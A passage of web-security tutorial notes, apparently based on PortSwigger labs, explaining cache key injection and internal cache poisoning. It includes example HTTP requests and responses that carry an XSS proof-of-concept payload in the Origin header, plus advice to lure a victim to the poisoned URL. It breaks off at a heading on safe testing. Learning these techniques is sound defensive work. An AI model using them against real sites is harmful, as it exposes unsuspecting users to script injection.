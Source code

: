 ### Cache key injection

You might discover a client-side vulnerability in a keyed header. If the cache doesn’t properly escape delimiters in cache key components, you can exploit this.

Example:

```
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```

Then lure a victim to visit this:

```
GET /path?param=123__Origin='-alert(1)-'__ HTTP/1.1

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```

> **Lab**: [Cache key injection](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-cache-key-injection) (Expert)  

---

## Poisoning internal caches

Some applications implement internal caches that cache response fragments rather than full responses. These fragments may not use cache keys at all. Poisoning such a fragment can affect every user on every page that reuses it.

This often only requires manipulating headers like `Host`.

---

### How to identify internal caches

Internal caches are harder to detect. Look for responses that:

- Reflect both new and old input.
- Show your input on pages where you didn’t inject anything.
- Exhibit unusual caching behavior.

---

### Testing internal caches safely
